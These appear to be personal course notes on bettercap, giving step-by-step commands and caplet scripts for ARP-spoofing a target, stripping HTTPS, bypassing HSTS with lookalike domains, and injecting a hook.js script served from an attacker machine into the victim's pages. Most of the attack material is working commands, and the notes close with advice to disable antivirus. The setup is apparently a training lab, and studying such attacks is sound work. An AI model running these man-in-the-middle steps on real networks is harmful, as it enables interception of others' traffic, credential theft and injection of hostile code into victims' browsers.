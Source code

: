 - bettercap -iface eth2  
	- net.probe on  
		- this will start to discover clients on the nework  
	- net.show  
		- this will show you all discovered clients  
	- set arp.spoof.fullduplex true  
		- sends the router and clients a arp spoof attack  
	- set arp.spoof.targets 192.168.86.22  
	- arp.spoof on  
		- This is to start the attack  
  
# Scripting:  
- open leafpad  
- type  
``` sh
net.probe on  
set arp.spoof.fullduplex true  
set arp.spoof.targets 192.168.86.22  
arp.spoof on 
``` 
- save the file as test.cap  
- bettercap -iface eth2 -caplet /root/test.cap  
  
  
# sslstrip:  
- Both of these scripts work  
- The first version is better  
- ver 1  
``` sh
net.probe on  
set arp.spoof.fullduplex true  
set arp.spoof.targets 192.168.86.22  
set http.proxy.sslstrip true  
set http.proxy.injectjs [http://192.168.86.39:3000/hook.js](http://192.168.86.39:3000/hook.js)  
http.proxy on  
arp.spoof on  
```
- ver 2  
``` sh
net.probe on  
set arp.spoof.fullduplex true  
set arp.spoof.targets 192.168.86.22  
set https.proxy.injectjs [http://192.168.86.39:3000/hook.js](http://192.168.86.39:3000/hook.js)  
https.proxy on  
arp.spoof on  
hstshijack/hstshijack 
``` 
  
# There are 2 types of websites that we are trying to bypass here:  
- Websites that use https but are NOT pre-loaded, ie: they are not included in the local list that forces the browser to load the domain over https, in this case we can access the website directly and we should be able to downgrade it to http, examples of these websites are linkedin.com, bbc.com, stackoverflow.com, apple.com, local google domains such as google.ie, google.co.uk, google.us.....etc , here is what I got  
- Now the 2nd type of websites are the pre-loaded websites, these are websites that are included in a list that is stored locally , the web browser checks this list everytime the user loads a website, if the website the user requested is in the list then the browser will refuse to load it unless it is loading over https, therefore we can never downgrade them to http if the user access them directly, our only chance is to hope that the user searches for one of these website using a search engine that is NOT preloaded, and then when the search engine returns the search results we replace the website name with something that is slightly different, like .corn instead of .com, when we do this the browser will think that this website is not in the pre-loaded list and we'll be able to downgrade it, again I tested the following by first going to google.ie , then searching for Facebook and twitter which are both pre-loaded websites.  
  
## Please clear ALL browsing data (cache, history.....etc) before doing the attack, cause bettercap custom hstshijack will fails to bypass https/hsts due to one or more of the following reasons:  
- You missed a tiny step, so please revise the lectures and make sure you do everything as shown.  
- You manually typed https:// in the url bar.  
- You manually configured the dns server in the target machine to 8.8.8.8 or 1.1.1.1 or anything else. You have a browser extension that is stopping this such as https-everywhere or no-javascript.  
- You did not fully remove browsing data, please make sure you check all boxes as shown here  
  
So keep in mind these notes, and try also to do the attack manually meaning that try to execute the commands manually instead of using the spoof.cap just to see if the attack results differs from the previous one, and please disable your Anti-Virus program for the purpose of testing.  

Please don't hesitate to contact if you need anything else.sc: